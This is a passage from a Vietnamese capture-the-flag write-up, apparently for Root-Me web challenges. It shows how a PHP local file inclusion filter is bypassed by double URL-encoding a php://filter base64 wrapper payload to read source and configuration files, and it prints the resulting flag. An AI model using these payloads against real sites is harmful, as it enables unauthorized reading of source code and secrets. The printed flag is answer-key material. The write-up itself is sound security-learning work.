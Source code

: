 Mình sẽ sử dụng filter stream wrapper của PHP sau để đọc source code dưới dạng base64, đầu tiên thử với file home : 

`?page=php://filter/convert.base64-encode/resource=home`

Thì nhận về thông báo 

![image](https://hackmd.io/_uploads/SyNfidcwa.png)

Có vẻ đã bị filter, nhìn vào đề bài tên là double encode , cho nên mình thử đem payload trên đi url encode 2 lần các kí tự `.`  `/` `:`  `=` `:` `-` : 

`php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dhome`

Kêt quả : 

![image](https://hackmd.io/_uploads/S1XKeF9Dp.png)

Đem đi decode 

![image](https://hackmd.io/_uploads/rJs5xFqDT.png)

Nhưng không có gì , thấy trong file có include("conf.inc.php")

Nên ta thử đọc source của file này với payload sau : 

`php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dconf%252Einc%252Ephp`

Nhận về thông báo lỗi sau 

![image](https://hackmd.io/_uploads/SyVrbK9DT.png)

Từ thông báo lỗi trên thì ta thấy rằng trang web sẽ tự động thêm `.inc.php` vào cuối , cho nên ta chỉ cần ghi conf là được 

`php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dconf`

Kết quả : 

![image](https://hackmd.io/_uploads/ByPlMt9v6.png)


Decode base64 , ta nhận được flag : 

![image](https://hackmd.io/_uploads/SJGRZKqDT.png)

Flag : Th1sIsTh3Fl4g!

## [7. Local File Inclusion - Wrappers](https://www.root-me.org/en/Challenges/Web-Server/Local-File-Inclusion-Wrappers)

![image](https://hackmd.io/_uploads/ryUkgn5Dp.png)

![image](https://hackmd.io/_uploads/HyLWx2cwp.png)

Trang web có chức năng upload file và thử up load một file `php` thì nhận thông báo chỉ nhần file ảnh `JPG`
